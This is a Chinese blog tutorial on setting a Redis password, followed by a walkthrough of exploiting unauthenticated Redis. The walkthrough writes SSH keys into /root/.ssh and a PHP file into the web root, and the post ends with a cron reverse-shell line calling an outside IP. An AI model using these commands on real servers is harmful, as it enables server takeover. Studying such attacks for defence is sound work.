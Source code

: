 ```yaml
---
title: redis设置认证密码
tags:
  - redis
categories:
  - 数据库
copyright: true
permalink: redis设置认证密码
top: 0
password: woaini2.
abstract: 输入密码继续阅读.
message: 欢迎来到我的博客，输入密码继续阅读.
date: 2020-01-14 21:09:05
---
```


人生苦短我用python
<!--more-->
## 首先连接Redis，然后执行CONFIG SET requirepass userpassword
```
/usr/local/redis/bin/redis-cli -h 127.0.0.1 -p 6379
127.0.0.1:6379> KEYS *
1) "user"
127.0.0.1:6379> CONFIG SET requirepass 123.com
OK
127.0.0.1:6379> KEYS *
(error) NOAUTH Authentication required.
127.0.0.1:6379> quit
```
从上面可以看到密码设置成功，同时一旦密码设置成功，刚刚建立的连接将不能进行任何权限操作
```
#使用-a userpassword 登录Redis
/usr/local/redis/bin/redis-cli -h 127.0.0.1 -p 6379 -a 123.com
127.0.0.1:6379> KEYS *
1) "user"
127.0.0.1:6379> set job it
OK
127.0.0.1:6379> KEYS *
1) "job"
2) "user"
127.0.0.1:6379> 
#通过Redis登录后可以看到可以进行任何操作
```

## docker 创建redis设置密码

```
 docker run -d --name myredis -p 6379:6379 redis --requirepass "doonsec"
```
跟上参数 `requirepass`


## 未授权访问

Redis因配置不当可以导致未授权访问，被攻击者恶意利用。当前流行的针对Redis未授权访问的一种新型攻击方式，在特定条件下，如果Redis以root身份运行，黑客可以给root账户写入SSH公钥文件，直接通过SSH登录受害服务器，可导致服务器权限被获取和数据删除、泄露或加密勒索事件发生，严重危害业务正常服务。部分服务器上的Redis 绑定在 0.0.0.0:6379，并且没有开启认证（这是Redis 的默认配置），以及该端口可以通过公网直接访问，如果没有采用相关的策略，比如添加防火墙规则避免其他非信任来源 ip 访问等，将会导致 Redis 服务直接暴露在公网上，可能造成其他用户可以直接在非授权情况下直接访问Redis服务并进行相关操作

（1）、redis绑定在 0.0.0.0:6379，且没有进行添加防火墙规则避免其他非信任来源 ip 访问等相关安全策略，直接暴露在公网；(这样的配置非常的普遍)

（2）、可以远程登录，一般是通过ssh，可以免密码登录
### 写ssh-keygen公钥然后使用私钥登陆:


利用条件:

（1）、redis的权限是以root访问；

（2）、可以ssh通过秘钥远程登录；

在本机创建密钥对
```
ssh-keygen -t rsa
```
执行以下命令，将本地的ssh的公钥导入到靶机上面，这样我们就可以不用输入密码直接登录远程服务器:

```
config set dir /root/.ssh;

config set dbfilename authorized_keys;

set x "\n\n\nssh-rsa 公钥 root@kalin\n\n\n";

save;
```
**注意：必须是root用户创建redis，否则执行命令没有权限**

```
127.0.0.1:6379> config set dir /root/.ssh;
(error) ERR Changing directory: Permission denied
```

通过执行连接命令:ssh -i id_rsa root@192.168.64.165 ,无需输入密码就可以成功登录靶机:
```
ssh -i id_rsa root@ ip地址
```
### 2、通过写入web服务的目录，获取服务器webshell：

利用条件:

(1)、网站存在web服务；

(2)、运行redis服务的权限较低；

(3)、web目录有写入的权限；

(4)、能够猜解出网站的根目录；


执行以下命令，将一句话或者测试代码写入到网站根目录下:
```
config set dir /var/www/html ; 定位到网站根目录下；

config set dbfilename cmdback.php ; 创建一个php文件

set x "<?php echo 'hello word'?>"  将内容写入到cmdback.php中

save;
```
查看数据
```
root@e35a54b91583:/data# ls
cmdback.php
root@e35a54b91583:/data#
```

### 防御措施:

（1）、登录账户设置复杂的口令；

（2）、修改原端口；

（3）、禁止公钥登陆系统；

（4）、设置IP白名单策略；

* * * * * bash -i >& /dev/tcp/47.100.199.103/8007 0>&1